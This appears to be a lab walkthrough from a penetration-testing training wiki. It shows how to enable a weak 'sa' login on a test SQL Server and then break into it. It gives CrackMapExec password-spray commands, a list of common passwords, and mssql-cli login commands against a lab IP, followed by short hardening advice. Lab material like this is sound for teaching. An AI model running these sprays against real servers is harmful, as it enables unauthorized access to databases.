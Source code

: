 ```yaml
---
description: >-
  By default the SA user is NOT enabled. Administrators might enable it during
  the installation and choose a weak password.
---
```


# SQL Server default login

## Configuring

1. Login to `WEB01` as the `Administrator` user with password `Welcome01!`.

2\. Open "Microsoft SQL Server Management Studio"

![](<../../.gitbook/assets/image (32) (1) (1) (1) (1) (1) (1).png>)

3\. Login with the `Administrator` user using Windows Authentication.

4\. Expand the "Security" and "Logins" folders. Right click "sa" and select "Properties". Make sure "Enforce password policy" is unchecked and fill in the password `sa` twice.

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png>)

## Attacking

### How it works

One of the default users (not enabled by default) for SQL Server is the SA user. Administrators might enable it during the installation and choose a weak password, such as the username.

### Tools

* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* [mssql-cli](https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15)

### Executing the attack

1. Check if the MSSQL server on `WEB01` can be contacted from our Kali machine:

```
crackmapexec mssql 10.0.0.5 -d .
```

![](<../../.gitbook/assets/image (64) (1) (1) (1) (1) (1) (1) (1).png>)

2\. Paste the following passwords in `passwords.txt` to spray with:

```
Password
Password01!
Password1!
Welcome01!
Welcome01
Welcome1!
Welcome1
sa
```

![](<../../.gitbook/assets/image (41) (1) (1).png>)

3\. Run Crackmapexec to connect to the MSSQL service running on `WEB01` and passwordspray the passwords till there is a succesfull login:

```
crackmapexec mssql 10.0.0.5 -u sa -p passwords.txt --local-auth
```

![](<../../.gitbook/assets/image (39) (1) (1) (1) (1) (1).png>)

We got a succesfull login as the `sa` user with the password `sa`.

4\. Run Crackmapexec again with the password sa and use the `-q` flag to try to execute the query `select @@version` to retrieve the MSSQL version.

```
crackmapexec mssql 10.0.0.5 -u sa -p sa --local-auth -q "select @@version;"
```

![](<../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png>)

5\. Connect to the database using mssql-cli.

```
mssql-cli -S 10.0.0.5 -U sa -P sa
```

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Check the executing commands page under SQL Server Attacks to learn to execute cmd commands:

{% content-ref url="../active-directory-attacks/sql-server-attacks/executing-commands.md" %}
[executing-commands.md](../active-directory-attacks/sql-server-attacks/executing-commands.md)
{% endcontent-ref %}

## Defending

### Recommendations

* Make sure the password policy is enforced for all users on the SQL server.
* Dont use the sa account, this account is well to known and attackers will attempt to brute-force it.

### Detection



## References

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://docs.microsoft.com/en-us/sql/tools/mssql-cli?view=sql-server-ver15" %}
